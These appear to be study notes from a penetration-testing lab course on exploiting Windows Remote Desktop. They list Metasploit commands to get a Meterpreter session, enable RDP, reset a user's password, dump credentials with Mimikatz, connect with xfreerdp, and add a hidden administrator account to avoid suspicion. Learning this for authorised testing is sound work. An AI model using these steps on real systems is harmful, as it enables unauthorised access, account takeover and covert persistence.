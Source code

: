 ###RDP
* Remote Desktp Protocol is a proprietary GUI remote access protocol developed by Microsoft
* USed to remotely connect and interact with Windows system.
* Uses TCP port 3389 by default --> Disabled by default
* **How to exploit**
  * MSF exploit module can be utilized to enable RDP and access the system through it.
  * RDP authentication requires a legitimatte user account on the target.
 
  * PRACTICAL
  * Repeat steps unitl db_nmap
  * **Open RDP**
  * `use exploit/windows/http/badblue_passthru`
  * `set target BadBlue\ EE\ 2.7\ Universal`
  * `run` --> This doesn't work in the lab.
  * After getting meterpreter session, put that to background
  * `use post/windows/manage/enable_rdp`
  * `set session [ID]`
  * `exploit` --> This will open the port running the RDP service
  * Then we can change the apssword of any user, which is not recommended as it may raise suspicions of a compromise. However to do it:
  * `net users` --> Look for all the users on the network
  * `net user [Username] [New password]`
  * To know the old password: Using hash cracking methods or use Mimikatz to dump clear-text passwords.
  * **How to interact with RDP from a linux system**
  * `xfreerdp /u:[Username] /p:[New password] /v:[Target_IP]` --> Will raise suspicions
  * Otherwise create another user and ad dit to the Administrators group to get the privileges to lower the suspicions.
